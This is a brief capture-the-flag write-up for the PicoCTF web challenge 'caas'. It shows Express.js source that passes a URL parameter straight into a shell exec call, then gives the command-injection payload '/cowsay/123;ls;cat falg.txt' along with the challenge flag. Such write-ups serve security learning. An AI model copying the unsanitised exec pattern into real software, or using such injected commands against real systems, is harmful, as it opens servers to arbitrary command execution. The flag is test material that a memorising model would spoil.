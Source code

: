 # PicoCTF - caas
###### tags: `PicoCTF` `CTF` `Web`

## Background
[Command Injection](https://lab.feifei.tw/practice/ci/l1.php)

## Source code
```javascript=
const express = require('express');
const app = express();
const { exec } = require('child_process');

app.use(express.static('public'));

app.get('/cowsay/:message', (req, res) => {
  exec(`/usr/games/cowsay ${req.params.message}`, {timeout: 5000}, (error, stdout) => {
    if (error) return res.status(500).end();
    res.type('txt').send(stdout).end();
  });
});

app.listen(3000, () => {
  console.log('listening');
});

```
## Recon
直覺是command injection

## Exploit - Easy Command Injection
Payload: `/cowsay/123;ls;cat falg.txt`
Flag: `picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}`
## Reference
[ CaaS | Web Category | PicoCTF | CTF For beginners ](https://youtu.be/ZP3kLVaMQIE)